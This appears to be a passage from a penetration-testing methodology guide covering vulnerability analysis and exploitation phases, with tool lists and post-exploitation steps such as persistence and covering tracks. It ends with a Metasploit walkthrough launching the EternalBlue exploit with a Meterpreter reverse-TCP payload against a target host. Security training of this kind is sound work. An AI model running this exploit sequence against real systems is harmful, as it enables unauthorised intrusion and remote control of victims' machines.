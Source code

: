 ### 4.3 Vulnerability Analysis

This phase involves analyzing discovered vulnerabilities:

1. **Vulnerability Identification**:
   - Matching discovered services with known vulnerabilities
   - Analyzing scan results
   - Researching potential security weaknesses
   - Identifying misconfigurations

2. **Vulnerability Verification**:
   - Eliminating false positives
   - Confirming vulnerability existence
   - Determining exploitability
   - Assessing potential impact

3. **Vulnerability Prioritization**:
   - Risk scoring (CVSS)
   - Business impact analysis
   - Exploitation difficulty assessment
   - Chaining vulnerabilities for greater impact

### 4.4 Exploitation

This phase involves actively exploiting discovered vulnerabilities:

1. **Exploitation Techniques**:
   - Password attacks
   - Web application attacks
   - Network-based attacks
   - Client-side attacks
   - Social engineering

2. **Post-Exploitation**:
   - Privilege escalation
   - Persistence establishment
   - Lateral movement
   - Data access and exfiltration
   - Covering tracks

3. **Exploitation Tools**:
   - Metasploit Framework
   - Burp Suite
   - SQLmap
   - Hydra
   - BeEF (Browser Exploitation Framework)

```bash
# Example: Basic exploitation with Metasploit

# Step 1: Start Metasploit
msfconsole

# Step 2: Search for a specific vulnerability
msf > search ms17_010

# Step 3: Select an exploit
msf > use exploit/windows/smb/ms17_010_eternalblue

# Step 4: Set required options
msf exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50

# Step 5: Run the exploit
msf exploit(ms17_010_eternalblue) > exploit

```